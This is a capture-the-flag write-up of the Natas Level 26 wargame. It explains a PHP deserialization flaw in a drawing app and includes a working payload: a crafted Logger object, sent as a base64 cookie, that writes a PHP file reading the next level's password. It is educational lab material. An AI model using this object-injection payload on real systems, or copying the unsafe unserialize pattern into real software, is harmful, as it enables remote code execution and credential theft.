




# Natas
> Level : Natas Level 26<br/>
> Solved : 3rd August 2021<br/>
> Remarks : PHP Deserialization<br/>
<br/>

## Quest
We are presented with a simple Drawing Application



<br/>
Backend Code 
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
 
function showImage($filename){
    if(file_exists($filename))
        echo "";
}

function drawImage($filename){
    $img=imagecreatetruecolor(400,300);
    drawFromUserdata($img);
    imagepng($img,$filename);     
    imagedestroy($img);
}

function drawFromUserdata($img){
    if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $color=imagecolorallocate($img,0xff,0x12,0x1c);
        imageline($img,$_GET["x1"], $_GET["y1"], 
                        $_GET["x2"], $_GET["y2"], $color);
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
                if( array_key_exists("x1", $object) && 
                    array_key_exists("y1", $object) &&
                    array_key_exists("x2", $object) && 
                    array_key_exists("y2", $object)){
                
                    $color=imagecolorallocate($img,0xff,0x12,0x1c);
                    imageline($img,$object["x1"],$object["y1"],
                            $object["x2"] ,$object["y2"] ,$color);
        
                }
    }    
}
    
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }
    
    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
?>
```
<br/>

## Solution

Lot of code to go through and most of it is concerned with drawing the image according to provided coordinates.

If we leave out function declarations, the PHP that gets executed is at the bottom.

The application draws lines either by coordinates provided or by deserializing the `drawing` cookie.

One things that strikes out in the code is `unserialize` and `serialize` functions. This calls for checking if Serialization Bugs are present.

What is Serialization?<br/>
>Serialization is when an object in a programming language is converted into a format that can be stored or transferred. Whereas deserialization is the opposite,  it’s when the serialized object is read from a file or the network and converted back into an object.


Lets deserialize the cookie:
```php
<?php

$drawing = unserialize(base64_decode("YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"));
print_r($drawing);
```

Output
```
$ php drawing.php
Array
(
    [0] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

    [1] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

)
```

After deserializing the `drawing` cookie, we get an array of coordinates used to create the lines.

In case of serialization bugs, we take advantage of the constructor and destructor function that runs when an object is created or destroyed.

Lets look at the `Logger` class, both constructor and destructor .i.e. `__construct` and `__destruct` function write to a file . They write the contents of variable `initMsg` and `exitMsg` to the file. Lets create an object 

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Serialization Buggs!!!\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/log.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
```

Output
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbG9nLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIzOiJTZXJpYWxpemF0aW9uIEJ1Z2dzISEhCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
```
<br/>
Observations:<br/>
  - We get the contents of the file storing password for next Level <br/>
  - we can write to `img` directory, so we store log file there. <br/>
 
We send a Logger object into a function that’s expecting arrays with coordinates, so this will give an error. But our exploit works because the objected is loaded into the `$drawing` variable, so when its life ends, the destructor will be called in turn writing our exploit to file and that's all we need.

Below we send our serialized object as cookie. (appended `%3D` for `=` )



<br/>
Now, lets access the file that we wrote



<br/>
We can see that our file gets written with our code but doesn't execute, let change `.txt` to `.php` in our serialized object and recreate it and that will execute to present the password for next level.



<br/>
<span id=green>**Takeaway**</span><br/>

  - Whenever we see `unserialize` and `serialize` functions in code, ALWAYS test it.<br/>
  - Test chunks of code locally, gr8 for understanding and exploiting.<br/>

<br/>
That's Level 26 

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
